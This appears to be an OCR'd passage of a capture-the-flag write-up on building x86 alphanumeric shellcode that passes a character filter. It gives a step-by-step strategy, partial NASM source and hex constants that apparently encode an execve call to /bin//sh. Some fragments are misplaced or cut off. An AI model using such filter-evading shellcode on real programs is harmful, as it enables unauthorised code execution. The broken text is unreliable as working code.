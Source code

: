 ```text
0x58436c6c
0x0
[origin]: 0x6852d231
0x30314141
0x58636c70
0xff00
```

## Strategy

So the strategy of generating an alphanumeric shellcode is:

1. Clear all registers
1. Make some register to be `0xffffffff` for convenience
1. `XOR` register with immediate values to shape the wanted value
1. `PUSH` the register into the stack
1. Do some minor change through XORing byte by byte
1. `PUSH esp` into the stack
1. Jump to the top of the stack by calling `RET`

You might wonder: why `RET` can be used? Actually it can't. So we place a
dummy value there, and patch it when executing the shellcode. The total length
of the shellcode should be carefully calculated in order to patch the right
byte where the dummy value resides. Otherwise, our happy friend (core dump)
will show up.

## Patch Patch Patch

The almighty Japanese had already provided a prototype for us! Thanks bro! But
still there are some parts must be patched to pass the check. All I have done
is that:

-  Replace the invalid immediate vaule
-  Replace `esi` with `edi` in `patch_ret`
-  Replace `ebx` and `edx` with `esi` when pushing zero into the stack
-  Eliminate 5 lines of `dec ecx`, and increase the length of the shellcode
-  Re-calculate the position of the dummy value.

And the result is:

```nasm
        /* alnum.s */
        .intel_syntax noprefix
        .globl _start
_start:
        /* set buffer register to ecx */
        push eax
        pop ecx

prepare_registers:
        push 0x30
        pop eax
        xor al, 0x30
                  /* omit eax, ecx */
        push eax  /* edx = 0 */
        push eax  /* ebx = 0 */
        push eax
        push eax
        push eax  /* esi = 0 */
        push ecx  /* edi = buffer */
        popad
        dec edx   /* edx = 0xffffffff */

patch_ret:
        /* garbage */
```

[origin]: 0x80cd0b42
[origin]: 0x8de18953
[origin]: 0x52e3896e
[origin]: 0x69622f68
[origin]: 0x68732f2f
[1]: http://inaz2.hatenablog.com/entry/2014/07/11/004655
[2]: http://inaz2.hatenablog.com/entry/2014/07/13/025626
[3]: http://skypher.com/wiki/index.php?title=X86_alphanumeric_opcodes
[4]: http://www.c-jump.com/CIS77/CPU/x86/lecture.html#X77_0100_sib_byte_layout